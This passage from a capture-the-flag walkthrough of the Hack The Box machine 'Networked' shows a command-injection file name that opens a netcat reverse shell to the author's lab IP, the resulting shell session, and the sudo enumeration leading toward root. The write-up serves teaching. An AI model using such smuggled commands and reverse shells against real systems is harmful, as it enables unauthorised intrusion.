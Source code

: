 There’s a simple command injection vulnerability in that script. I used `touch ;$(nc 10.10.14.140 444 -c bash);` to create a file that would get me a reverse shell whenever the script is executed. After waiting for about three minutes, I got the shell:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/networked# nc -nvlp 444
listening on [any] 444 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.10.146] 42280
python -c "import pty; pty.spawn('/bin/bash')"
[guly@networked ~]$ wc /home/guly/user.txt
wc /home/guly/user.txt
 1  1 33 /home/guly/user.txt
[guly@networked ~]$

{% endhighlight %}

I will not post the contents of `user.txt` here, however, I will say that the proof starts with `52` 🙂

## Getting root

After getting the user proof, I started enumerating the host. While doing that, I found an interesting `/etc/sudoers` entry:

{% highlight bash %}
[guly@networked .ssh]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked .ssh]$

{% endhighlight %}

The current user can run `/usr/local/sbin/changename.sh` without providing a password. The script’s source is pretty simple:

{% highlight bash %}
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0

{% endhighlight %}
